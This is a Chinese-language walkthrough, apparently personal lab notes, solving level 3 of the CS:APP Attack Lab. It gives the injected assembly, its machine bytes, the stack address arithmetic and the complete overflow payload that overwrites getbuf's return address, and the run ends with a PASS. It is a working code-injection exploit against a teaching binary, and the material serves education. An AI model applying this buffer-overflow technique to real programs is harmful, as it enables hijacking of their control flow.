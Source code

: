 需要让ctarget执行touch3的指定分支，与touch2类似，只不过参数变成了指向一个字符串的指针。要求该字符串的值与cookie的无符号值的十六进制字符表示相等，即字符串是 `59b997fa`。

同样需要将getbuf的返回地址覆盖为注入代码的起始地址，也与touch2相同为：0x5561dc78。

由于hexmatch函数还会在栈上随机的破坏128字节的buffer空间，为了不让hexmatch函数破坏我们设置的字符串，注入的代码可以将rsp减去一定的值（至少保证rsp的新址超过字符串存储的起始地址），这样就可以防止字符串被破坏了。

touch的参数保存在rdi中，目前还不确定字符串的起始地址，可以随便写一个
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ vim code.s 
sugar@ubuntuServer:~/csappLab/attacklab$ gcc -Og -c code.s
sugar@ubuntuServer:~/csappLab/attacklab$ objdump -d code.o

code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0: 48 c7 c7 ff 17 40 00    mov    $0x4017ff,%rdi
   7: 48 83 ec 10             sub    $0x40,%rsp
   b: 68 fa 18 40 00          pushq  $0x4018fa
  10: c3                      retq   
sugar@ubuntuServer:~/csappLab/attacklab$ cat code.s
mov $0x4017ff, %rdi
sub $16, %rsp
push $0x4018fa
ret
```
计算真正的string需要填充到的位置：（buffer起始地址加上注入代码的字节码长度）
```
(gdb) print /x (0x5561dc78 + 17)
$2 = 0x5561dc89
```
重新生成注入代码
```x86asm
Disassembly of section .text:

0000000000000000 <.text>:
   0: 48 c7 c7 89 dc 61 55    mov    $0x5561dc89,%rdi
   7: 48 83 ec 40             sub    $0x40,%rsp
   b: 68 fa 18 40 00          pushq  $0x4018fa
  10: c3                      retq
```
但是并没有成功。发现问题，我在bytes中写的59b997fa是直接写入的，但是要把每个数转为ascii码：  
字符：      5  9  b  9  9  7  f  a  
对应ascii： 35 39 62 39 39 37 66 61

再写入bytes文件：
```txt
48 c7 c7 89 dc 61 55 48
83 ec 40 68 fa 18 40 00
c3 35 39 62 39 39 37 66
61 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
成功！
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ vim bytes 
sugar@ubuntuServer:~/csappLab/attacklab$ ./hex2raw < bytes > args.txt 
sugar@ubuntuServer:~/csappLab/attacklab$ ./ctarget -q -i args.txt 
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
```